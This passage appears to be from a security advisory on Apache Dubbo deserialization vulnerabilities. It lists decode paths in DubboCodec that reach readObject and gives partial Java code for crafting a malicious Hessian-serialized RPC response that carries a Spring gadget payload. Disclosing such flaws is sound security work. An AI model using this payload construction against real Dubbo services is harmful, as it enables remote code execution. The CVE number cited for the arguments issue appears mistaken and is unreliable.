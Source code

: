  </li>
  <li><a href="https://github.com/apache/dubbo/blob/25761bb51b7c3a8702690bca821aa1658bcca0d7/dubbo-rpc/dubbo-rpc-dubbo/src/main/java/org/apache/dubbo/rpc/protocol/dubbo/DubboCodec.java#L122">Request Event</a>
    <ul>
      <li><code class="language-plaintext highlighter-rouge">decodeEventData</code> -&gt; <code class="language-plaintext highlighter-rouge">in.readEvent</code> -&gt; <code class="language-plaintext highlighter-rouge">in.readObject</code></li>
    </ul>
  </li>
  <li><a href="https://github.com/apache/dubbo/blob/25761bb51b7c3a8702690bca821aa1658bcca0d7/dubbo-rpc/dubbo-rpc-dubbo/src/main/java/org/apache/dubbo/rpc/protocol/dubbo/DubboCodec.java#L127">Request</a>
    <ul>
      <li><code class="language-plaintext highlighter-rouge">DecodeableRpcInvocatio.decode</code> leads to multiple deserializations such as the arguments one covered in <code class="language-plaintext highlighter-rouge">CVE-2020-1938</code>, or the version or attachments ones mentioned previously.</li>
    </ul>
  </li>
</ul>

<p>For example an attacker can craft an RPC NOK response like:</p>

<div class="language-java highlighter-rouge"><div class="highlight"><pre class="highlight"><code>    <span class="c1">// HEADER</span>
    <span class="kt">byte</span><span class="o">[]</span> <span class="n">header</span> <span class="o">=</span> <span class="k">new</span> <span class="kt">byte</span><span class="o">[</span><span class="mi">16</span><span class="o">];</span>

    <span class="c1">// SET MAGIC NUMBER</span>
    <span class="nc">Bytes</span><span class="o">.</span><span class="na">short2bytes</span><span class="o">(</span><span class="no">MAGIC</span> <span class="o">,</span> <span class="n">header</span><span class="o">);</span>

    <span class="c1">// HESSIAN SERIALIZED RESPONSE</span>
    <span class="n">header</span><span class="o">[</span><span class="mi">2</span><span class="o">]</span> <span class="o">=</span> <span class="o">(</span><span class="kt">byte</span><span class="o">)</span> <span class="mi">2</span><span class="o">;</span>

    <span class="c1">// NOK RESPONSE STATUS</span>
    <span class="n">header</span><span class="o">[</span><span class="mi">3</span><span class="o">]</span> <span class="o">=</span> <span class="o">(</span><span class="kt">byte</span><span class="o">)</span> <span class="mi">0</span><span class="o">;</span>

    <span class="c1">// ID</span>
    <span class="nc">Bytes</span><span class="o">.</span><span class="na">long2bytes</span><span class="o">(</span><span class="mi">666</span><span class="o">,</span> <span class="n">header</span><span class="o">,</span> <span class="mi">4</span><span class="o">);</span>

    <span class="c1">// PAYLOAD</span>
    <span class="nc">Object</span> <span class="n">payload</span> <span class="o">=</span> <span class="n">generate_spring_payload</span><span class="o">();</span>
    <span class="nc">ByteArrayOutputStream</span> <span class="n">encodedPayload</span> <span class="o">=</span> <span class="n">direct_hessian_object</span><span class="o">(</span><span class="n">payload</span><span class="o">);</span>
    <span class="n">encodedPayloadSize</span> <span class="o">=</span> <span class="n">encodedPayload</span><span class="o">.</span><span class="na">size</span><span class="o">();</span>
    <span class="n">encodedPayloadBytes</span> <span class="o">=</span> <span class="n">encodedPayload</span><span class="o">.</span><span class="na">toByteArray</span><span class="o">();</span>
